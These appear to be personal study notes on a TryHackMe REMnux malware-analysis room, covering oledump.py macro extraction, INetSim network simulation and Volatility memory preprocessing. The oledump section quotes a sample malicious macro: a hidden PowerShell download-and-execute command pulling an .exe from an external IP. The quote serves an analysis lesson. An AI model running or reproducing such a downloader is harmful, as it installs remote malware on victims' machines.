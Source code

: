 https://tryhackme.com/r/room/remnuxgettingstarted
https://remnux.org/ (refer to the download section)

Username: `remnux` Password: `malware`

- Specialised Linux distro for reverse-engineering and analysing malicious software

- Includes tools like:
	- Volatility
	- YARA
	- Wireshark
	- oledump
	- INetSim

File Analysis
- oledump.py
	- A python tool that analyses OLE2 files
		- Object Linking and Embedding
			- These files can hold multiple data types
				- Documents, spreadsheets, presentations - within a single file
	- oledump.py is useful for extracting and examining the contents of OLE2 files
	- Can pick up VBA scripts that could be embedded inside the file
		- `oledump.py <filename.xlsm>`
		- If so, it will assign the file (or location within the file) with an `A`
			- Though this can different
		- The `A <+number>` are called **Data Streams**
	- Data Streams beginning with a capital `M` outlines there is a Macro
	- Say for example if the macro data stream is fourth on the list, we can run for example:
		- `oledump.py <filename.xlsm> -s 4`
			- Where we are selecting the fourth item
		- This will get us a hex dump of that data stream
		- We can add the `--vbadecompress` parameter to our command
			- `oledump.py <filename.xlsm> -s 4 --vbadecompress`
		- Say for example oledump.py returns this:
			```powershell
			"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } �PassThru; Invoke-WebRequest -Uri ""http://<external-ip-address>/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
			```
		- This macro is essentially running PowerShell without being visible to the end-user, allowing any script to be able to run without without restriction, pulling a file from the an external IP address, and saving it to a variable called `$TempFile` - it then runs that file.

Fake Network to Aid Analysis
- During dynamic analysis - it is essential to observe the behaviour of potentially malicious software - especially its network activity. 
- We could:
	- Create a whole infrastructure...
	- A virtual environment with different core machines
	- And more
- REMnux VM has what is called **INetSim: Internet Services Simulation Suite**

- INetSim
	- `/etc/inetsim/inetsim.conf`
		- Make sure DNS settings here are as they should be 
		- In the THM exercise, the `dns_default_ip` was changed from `0.0.0.0` to the REMnux box's IP
	- `sudo inetsim`
		- Ensuring that the simulation was running
	- Will need to muck around with this tool further
	- Another machine on the same virtual network will be able to connect to the INetSim service on port 443 on the REMnux machine
	- Captured connections are saved in `/var/log/inetsim/report/`

Memory Investigation: Evidence Preprocessing
- Common investigate practice in Digital Forensics - the preprocessing of evidence
- Involves running tools and saving the results in text or JSON format (JSON could be better..)
- Tools like **Volatility** when dealing with memory images as evidence

- Volatility (already included in REMnux)
- https://volatility3.readthedocs.io/en/stable/volatility3.plugins.html
	- `vol3
	- `vol3 -f <memory-image-file.mem>`
	- Volatility commands are executed to identify and extract specific artefacts from memory images
	- The resulting output can be saved for further examination
	- Scripts can be run which involves the tool's different parameters to preprocess the acquired evidence faster
	- **Preprocessing with Volatility** (these are known as **plugins**)
		- PsTree
			- `vol3 -f <memory-image-file.mem> windows.pstree.PsTree`
			- Lists processes in a tree based on their parent process ID
		- PsList
			- `vol3 -f <memory-image-file.mem> windows.pslist.PsList`
			- Lists all currently active processes in the machine
		- CmdLine
			- `vol3 -f <memory-image-file.mem> windows.cmdline.CmdLine`
			- Lists process command line arguments
		- FileScan
			- `vol3 -f <memory-image-file.mem> windows.filescan.FileScan`
			- Scans for file objects in a particular Windows memory image
		- DllList
			- `vol3 -f <memory-image-file.mem> windows.dlllist.DllList`
			- Lists the loaded modules in a particular Windows memory image
		- PsScan
			- `vol3 -f <memory-image-file.mem> windows.psscan.PsScan`
			- Lists processes present in a particular Windows memory image
		- Malfind
			- `vol3 -f <memory-image-file.mem> windows.malfind.Malfind`
			- Lists process memory ranges that potentially contain injected code
		- You can save these results, combined into one text file, via a bash loop
		`for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f <memory-image-file.mem> $plugin > <file-name>.$plugin.txt; done`
		- You will get individual .txt files for each of the different Preprocessing jobs that were listed into the `$plugin` variable (as above)
	- **Preprocessing with Strings**
		- Extract the ASCII, 16-bit little-endian, and 16-bit big-endian strings
		- `strings <memory-image-file.mem> > <new-file-name>.strings.ascii.txt`
		- `strings -e l <memory-image-file.mem> > <new-file-name>.strings.unicode_little_endian.txt`
		- `strings -e b <memory-image-file.mem> > <new-file-name>.strings.unicode_big_endian.txt`
		- 